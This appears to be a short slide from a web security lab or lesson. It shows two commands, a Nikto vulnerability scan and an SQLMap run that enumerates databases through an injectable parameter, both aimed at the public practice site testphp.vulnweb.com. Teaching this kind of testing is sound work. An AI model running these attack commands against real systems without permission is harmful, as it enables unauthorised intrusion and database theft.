

Step 1:
Nikto Scan:
nikto -h http://testphp.vulnweb.com

STEP 2:
SQLMap Test:
sqlmap -u “http://testphp.vulnweb.com/artists.php?artists=1” –batch –dbs